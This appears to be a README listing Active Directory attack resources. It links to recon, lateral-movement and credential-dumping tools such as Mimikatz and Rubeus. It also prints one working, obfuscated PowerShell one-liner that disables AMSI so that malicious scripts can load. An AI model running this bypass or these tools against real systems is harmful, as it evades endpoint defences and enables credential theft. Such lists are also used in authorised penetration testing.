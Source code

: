 # AD-Security-Resources


<H2>Huge list of AD security resources available below :</H2>
  https://adsecurity.org/
  https://www.harmj0y.net/
  https://m0chan.github.io/2019/07/31/How-To-Attack-Kerberos-101.html
  https://beta.hackndo.com/


<H2> Setting up active directory lab : <H2>
  https://github.com/outflanknl/Invoke-ADLabDeployer



<H2> Bypassing Powershell execution policy issues : </H2>
<h3>Github links - AMSI Bypass for loading malicious scripts: <h3> 
  https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell
<h3> Something that works quickly </h3>
  sETItEM ( 'V'+'aR' + 'IA' + 'blE:1q2' + 'uZx' ) ( [TYpE]( "{1}{0}"-F'F','rE') ) ; ( GeT-VariaBle ( "1Q2U" +"zX" ) -VaL)."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System' ))."g`etf`iElD"( ( "{0}{2}{1}" -f'amsi','d','InitFaile' ),("{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,' ))."sE`T`VaLUE"(${n`ULl},${t`RuE} )

<H2> Recon of active directory objects :</h2>
-> PowerView / Powersploit :
  https://github.com/PowerShellMafia/PowerSploit

-> AD Module :
  https://github.com/samratashok/ADModule

-> Bloodhound
  https://github.com/BloodHoundAD/SharpHound
  https://github.com/BloodHoundAD/BloodHound


==> Lateral Movement Automation :
  https://github.com/GoFetchAD/GoFetch

<H2> Credential Dumping for all attacks (PTH, Kerberoasting, Golden Ticket Attack, Silver Ticket Attack, Skeleton Key Attack:
-> Mimikatz :
  https://github.com/gentilkiwi/mimikatz

-> Spraykatz - Credentials gathering tool automating remote procdump and parse of lsass process
  https://github.com/aas-n/spraykatz

-> Mimikittenz - Reading credentians from process :
  https://github.com/putterpanda/mimikittenz

-> Benjamin Delpy's Kekeo 
  https://github.com/gentilkiwi/kekeo/

-> Vincent LE TOUX's MakeMeEnterpriseAdmin
  https://github.com/vletoux/MakeMeEnterpriseAdmin

-> Rubeus :
  https://github.com/GhostPack/Rubeus

<H2> Pingcastle - AD Security :
  https://github.com/vletoux/pingcastle




